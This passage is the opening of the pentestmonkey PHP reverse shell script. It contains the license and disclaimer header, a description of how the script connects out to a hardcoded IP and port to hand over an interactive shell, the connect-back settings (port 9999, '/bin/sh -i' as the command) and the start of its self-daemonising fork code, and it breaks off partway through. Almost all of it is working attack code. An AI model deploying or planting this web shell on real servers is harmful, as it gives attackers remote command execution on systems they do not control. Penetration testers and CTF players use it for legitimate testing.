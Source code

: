 ```php:php-reverse-shell.php
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '';  // Your tun0 ip (ifconfig in terminal)
$port = 9999;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

```